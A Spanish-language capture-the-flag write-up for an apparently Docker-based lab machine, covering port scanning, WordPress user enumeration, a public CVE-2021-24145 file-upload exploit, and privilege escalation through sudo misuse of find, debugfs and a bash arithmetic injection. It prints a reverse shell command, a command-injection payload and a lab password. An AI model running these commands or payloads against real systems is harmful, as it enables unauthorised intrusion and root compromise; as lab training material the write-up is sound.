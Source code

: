 Fecha: 02/09/2024
Comienzo escaneando la máquina: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.18.0.2 -oN scan
```

![](../Imágenes/Pasted%20image%2020240902202029.png)

Por lo que veo hay un servidor apache, así que hago fuzzing para buscar posibles urls:
```
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.18.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](../Imágenes/Pasted%20image%2020240902202710.png)

Encuentro el panel de login: wp-login.php. Uso la herramienta **wpscan** para enumerar usuarios, encontrando `erik` y `developer` 

```
wpscan --url http://172.18.0.2 --enumerate u
```

![](../Imágenes/Pasted%20image%2020240902203407.png)

Además, podemos ver que hay un directorio backups, al que accedo: 

![](../Imágenes/Pasted%20image%2020240902203854.png)

Descomprimo este directorio. Al leer el archivo que hay dentro, encuentro lo siguiente: 

![](../Imágenes/Pasted%20image%2020240902204206.png)

Pruebo ese usuario y contraseña en el panel de login y entro como administrador. Voy a los plugins y veo que hay uno desactualizado: Modern Events Calendar Lite (versión 5.16.2). Busco y al parecer hay una vulnerabilidad, y un exploit para la misma en en [github](https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24145/README.md).

![](../Imágenes/Pasted%20image%2020240902204756.png)

Uso el script de python y consigo una shell en http://172.18.0.2:80//wp-content/uploads/shell.php:
```
python3 exploit.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

Haciendo sudo -l encuentro lo siguiente que puedo usar `find` como "rafa": 

![](../Imágenes/Pasted%20image%2020240902205302.png)

Utilizo https://www.revshells.com/ para crear una reverse shell y trabajar más cómodamente: 
- En la shell virtual haré `bash -c 'bash -i >& /dev/tcp/172.18.0.1/9001 0>&1'`
- En mi máquina atacante haré `nc -lvnp 9001`
En https://gtfobins.github.io/gtfobins/find/#sudo encuentro:
```
sudo -u rafa find . -exec /bin/sh \; -quit
```

Como "rafa", puedo usar `debugfs` como "ruben":
![](../Imágenes/Pasted%20image%2020240902211145.png)

Usando lo encontrado en https://gtfobins.github.io/gtfobins/debugfs/#sudo:
```
sudo -u ruben debugfs
!/bin/sh
```

Y, finalmente, como "ruben":
![](../Imágenes/Pasted%20image%2020240902211401.png)

Podremos ejecutar /opt/penguin.sh como root, cuyo contenido es: 
![](../Imágenes/Pasted%20image%2020240902211749.png)

Como no encontré qué hacer a partir de aquí, busqué en writeups, encontrando https://github.com/haw441kings/DockerLabsWriteUps/blob/main/Faciles/Whoiam.md. En el mismo, explica que usando lo siguiente como respuesta estaremos inyectando una shell y al ejecutarlo como administrador seremos root: 

```
sudo -u root /opt/penguin.sh
a[$(/bin/bash>&2)]+42
```

![](../Imágenes/Pasted%20image%2020240902212443.png)

Analizando a posteriori, me di cuenta que el "+42" lo único que hace es que al salir del bash la salida sea "Correct" en vez de Wrong.

#TODO analizar como funciona la inyección. 